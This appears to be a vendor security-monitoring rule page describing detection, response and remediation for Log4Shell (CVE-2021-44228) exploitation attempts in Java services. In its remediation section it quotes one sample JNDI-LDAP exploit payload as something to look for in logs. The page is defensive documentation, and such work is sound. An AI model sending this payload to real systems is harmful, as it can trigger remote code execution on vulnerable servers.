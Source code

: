 ```yaml
---
aliases:
- pd3-xlj-up0
- /security_monitoring/default_rules/pd3-xlj-up0
- /security_monitoring/default_rules/appsec-log4j-attack-attempt
disable_edit: true
integration_id: application-security
kind: documentation
rule_category:
- Application Security
security: attack
source: application-security
title: Log4shell RCE attempts - CVE-2021-44228
type: security_rules
---
```


### Goal
Detect attempts to exploit the log4j vulnerability (CVE-2021-44228). 

The vulnerability has [CVSS Score: 10.0 CRITICAL][1] and can lead to Remote Code Execution (RCE).

### Strategy
Monitor payload matching the known patterns for CVE-2021-44228 (event rule: #sqr-000-017) and generate an Application Security signal with `Info` severity if at least 10 attacks are targeting a service running a Java application.

### Response
Consider blocking the attacking IP(s) temporarily to prevent them to reach deeper parts of your production systems.

### Remediation
First, check if the impacted web service uses a vulnerable version of the log4j module.
Versions from 2.0-beta9 through 2.12.1, and 2.13.0 through 2.14.1, including 2.15.0-rc1 - are vulnerable.

If vulnerable, apply the following remediations to prevent exploit of the Log4Shell vulnerability:
- Update log4j to the latest patched version immediately (>= 2.15.0)
- Disable lookups by setting `formatMsgNoLookups=true`. Only available from log4j >= 2.10 versions
- Use a non-vulnerable or empty implementation of the class `org.apache.logging.log4j.core.lookup.JndiLookup`

Finally, investigate evidences of log containing malicious payload like `${jndi:ldap://x.x.x.x/#Touch}` through Datadog ASM.

 [1]: https://nvd.nist.gov/vuln/detail/CVE-2021-44228
